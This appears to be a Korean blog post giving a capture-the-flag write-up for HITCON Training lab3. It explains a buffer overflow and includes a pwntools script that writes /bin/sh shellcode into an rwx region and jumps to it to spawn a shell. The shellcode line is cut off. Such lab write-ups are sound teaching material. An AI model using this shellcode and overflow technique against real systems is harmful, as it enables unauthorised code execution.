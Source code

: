 ```yaml
---
layout: post
title: "[HITCON Training] lab3"
comments : true
category : War Game
---
```


# 문제
***

해당 binary는 read를 통해 hard coding된 영역에 0x32byte 만큼 입력을 받는다. 그리고 get 함수를 호출하는데 이 get 함수를 이용하면 bof를 발생시킬 수 있다.

++hard coding된 영역은 rwx권한이 부여되어 있다. ++

ALSR이 걸려 있으므로 hard coding된 영역에 shellcode를 삽입한 뒤 get을 이용해 해당 주소로 jmp하면 shell을 얻을 수 있다.

# 풀이
***
```
#!/usr/bin/python

from pwn import *

file_path='/home/sungyun/HITCON-Training/LAB/lab3/ret2sc'

shell="\x90"*20
shell+="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x8$

pay="A"*32+"\x60\xa0\x04\x08"


p=process(file_path)

p.recvuntil(":")
p.send(shell)
p.recvuntil(":")
p.sendline(pay)

p.interactive()

```



